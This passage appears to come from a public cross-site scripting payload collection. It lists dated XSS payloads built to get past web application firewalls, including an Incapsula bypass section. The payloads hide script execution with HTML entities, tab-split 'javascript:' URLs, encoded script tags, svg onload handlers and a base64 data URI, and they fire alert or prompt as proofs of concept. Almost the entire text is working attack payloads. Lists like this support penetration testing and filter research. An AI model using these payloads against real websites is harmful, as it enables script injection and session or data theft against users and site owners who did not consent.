 ```html
<svg/onload=%26nbsp;alert`bohdan`+
```

#### 5th June 2019

```html
1'"><img/src/onerror=.1|alert``>
```

#### 3rd June 2019

```html
<svg onload=prompt%26%230000000040document.domain)>
<svg onload=prompt%26%23x000000028;document.domain)>
xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
```

```
<svg/onload=&#97&#108&#101&#114&#00116&#40&#41&#x2f&#x2f
```

#### 27th February 2018

```html
<a href="j&Tab;a&Tab;v&Tab;asc&NewLine;ri&Tab;pt&colon;&lpar;a&Tab;l&Tab;e&Tab;r&Tab;t&Tab;(document.domain)&rpar;">X</a>
```

#### 9th August 2018

```javascript
</script><svg><script>alert(1)-%26apos%3B
```

Live example by @brutelogic - [https://brutelogic.com.br/xss.php](https://brutelogic.com.br/xss.php?c1=</script><svg><script>alert(1)-%26apos%3B)

### Incapsula WAF Bypass

#### 8th March 2018

```javascript
anythinglr00</script><script>alert(document.domain)</script>uxldz

anythinglr00%3c%2fscript%3e%3cscript%3ealert(document.domain)%3c%2fscript%3euxldz
```

#### 11th September 2018

```javascript
<object data='data:text/html;;;;;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></object>
```

#### 11th May 2019

```html
<svg onload\r\n=$.globalEval("al"+"ert()");>
```
